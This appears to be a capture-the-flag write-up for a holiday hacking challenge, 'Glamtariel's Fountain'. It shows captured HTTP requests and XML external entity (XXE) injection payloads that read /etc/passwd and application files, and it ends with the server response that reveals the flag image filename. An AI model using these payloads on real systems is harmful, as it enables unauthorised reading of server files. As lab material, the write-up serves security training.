Recover the Web Ring
3.8 Glamtariel's Fountain

Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.
Hint(s)

Solve
ANSWER: goldring-morethansupertopsecret76394734.png
Terminal answers
1.- Do a "Drag and Drop" for all the the items to Glamtariel and fountain images. 
2.- Keep attention through the dialogs and catch all the CAPITALIZE WORDS, those will be give us a clearly hint to solve the challenge.
My capitalize words list:
TAMPER | TRAFFIC FLIES : A hint to tampper the data sending through POST/GET methods.
TYPE : A hint to modify the Content-Type to exploit the vulnerability.
RINGLIST : A hint find the file through the exploitation and must be simple e.g ringlist.txt acording to Glamtariel's dialogs.
APP | PATH : A hint regarding the default path where docker deploy the APP, this will give us an idea from where is the flag.
3.- Continue doing "Drag and Drop" for all items until get the blue rings, the silver and red. 
4.- See the Glamtariel dialog "You know what one of my favorite songs is? Silver rings, silver rings..." <-- see another clear hint.
5.- Do a "Drag and Drop" and catch the Silver Ring traffic with burp suite.
POST /dropped HTTP/2
Host: glamtarielsfountain.com
Cookie: GCLB="9d99dd148f14d5ca"; MiniLembanh=99eb6d49-fc8c-4aa5-8e73-a8013a8e97fa.BUIEOhG5Bz2f0vauCs7uKxoE-I0
Content-Length: 52
Accept: application/json
Content-Type: application/json
{"imgDrop":"img2","who":"princess","reqType":"json"}
6.- Change the Content-Type header to use XML and change JSON arguments by XML format, send the new POST through webproxy.
POST /dropped HTTP/2
Host: glamtarielsfountain.com
Cookie: GCLB="9d99dd148f14d5ca"; MiniLembanh=99eb6d49-fc8c-4aa5-8e73-a8013a8e97fa.BUIEOhG5Bz2f0vauCs7uKxoE-I0
Content-Length: 52
Accept: application/json
Content-Type: application/xml <--HERE!
<?xml version="1.0" encoding="UTF-8"?>
<root>
<imgDrop>img2</imgDrop>
<who>fountain</who>
<reqType>xml</reqType>
</root>
7.- See the reponse from the server on specific the "appResp" values.
I'm one of the few who can discuss anything using that TYPE of language.^Yeah, I can understand a bit, but not communicate with it at all

8.- Send a new POST payload but now changing the XML "<who>" value by princess
POST /dropped HTTP/2
Host: glamtarielsfountain.com
Cookie: GCLB="9d99dd148f14d5ca"; MiniLembanh=99eb6d49-fc8c-4aa5-8e73-a8013a8e97fa.BUIEOhG5Bz2f0vauCs7uKxoE-I0
Content-Length: 52
Accept: application/json
Content-Type: application/xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<imgDrop>img1</imgDrop>
<who>princess</who> <--HERE!
<reqType>xml</reqType>
</root>
9.- See the reponse from server , on specific the "<appResp>" value.
I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.

10.- On this phase the XML arguments "<imgDrop>" and "<who>" any value injected are accepted by server side, the last argument "<reqType>" if we changed the value we received an error or if the XML format is not the correct as well.
Sorry, I don't quite understand what you were trying to share. I know many languages but use only a few. Did you forget a root for the language or something else perhaps? It could be that I don't know anything about that also.^Sorry, I didn't understand. I typically only use one TYPE of language

11.- Same case, if we try to change the format before get the Silver Ring we see the following message:
Zoom, Zoom, very hasty, can't do that yet!^Zoom, Zoom, very hasty, can't do that yet!"

12.- Time to Inject the XXE payloads, notice the server don't offer any clue to read local files to see where we are into server directories.
POST /dropped HTTP/2
Host: glamtarielsfountain.com
Cookie: GCLB="9d99dd148f14d5ca"; MiniLembanh=99eb6d49-fc8c-4aa5-8e73-a8013a8e97fa.BUIEOhG5Bz2f0vauCs7uKxoE-I0
Content-Length: 52
Accept: application/json
Content-Type: application/xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
<foo>&xxe;</foo>
<imgDrop>&xxe;</imgDrop>
<who>fountain</who>
<reqType>xml</reqType>
</root>

13.- Through all the process the server response on visit argument mostly with none value but in specific cases as "TAMPER error" was included the PATH to see an image.
HTTP/2 200 OK
Server: Werkzeug/2.2.2 Python/3.10.8
[../snip]
{
"appResp": "Trying to TAMPER with Kringle's favorite cookie recipe or the entrance tickets can't help you Grinchum! I'm not sure what you are looking for but it isn't here! Get out!^Miserable trickster! Please click him out of here.",
"droppedOn": "none",
"visit": "static/images/grinchum-supersecret_9364274.png,265px,135px" <-- HERE!
}

14.- After spent some long hours at nite and very frustrating, finally we guess the correct path to call the file /app/static/images/ringlist.txt.
XXE Payload:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
Response:
{
"appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
"droppedOn": "none",
"visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}

Consult the image: https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png
The image shows the folder name and files to call.
PATH: /x_phial_pholder_2022/bluering.txt
PATH: /x_phial_pholder_2022/redring.txt

15.- Knowing that we need to call a ring by colors the list should be the follow through XXE exploitation:
PATH: /x_phial_pholder_2022/bluering.txt
PATH: /x_phial_pholder_2022/redring.txt
PATH: /x_phial_pholder_2022/greenring.txt
PATH: /x_phial_pholder_2022/silverring.txt <-- HERE!!
PATH: /x_phial_pholder_2022/goldring.txt
16.- The most important data to get the flag is the silverring.txt
XXE Payload:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
Response:
{
"appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
"droppedOn": "none",
"visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}

Consult the image: https://glamtarielsfountain.com/static/images/redring-supersupersecret928164.png
The image shows a new file to call.
PATH: /x_phial_pholder_2022/goldring_to_be_deleted.txt

17.- Now call the file /x_phial_pholder_2022/goldring_to_be_deleted.txt through XXE exploitation:
XXE Payload:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
Response:
{
"appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
"droppedOn": "none",
"visit": "none"
}

See that nothing happened, this time we need to move the XXE injection to XML <reqType> argument
18.- Final step, call the file /x_phial_pholder_2022/goldring_to_be_deleted.txt through the argument <reqType>
XXE Payload:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
<imgDrop>img1</imgDrop>
<who>princess</who>
<reqType>&xxe;</reqType> <--HERE!
</root>
Response:
{
"appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
"droppedOn": "none",
"visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}

Consult the image: https://glamtarielsfountain.com/static/images/goldring-morethansupertopsecret76394734.png
The image shows Golden Ring
goldring-morethansupertopsecret76394734.png <-- Voila!, FLAG!
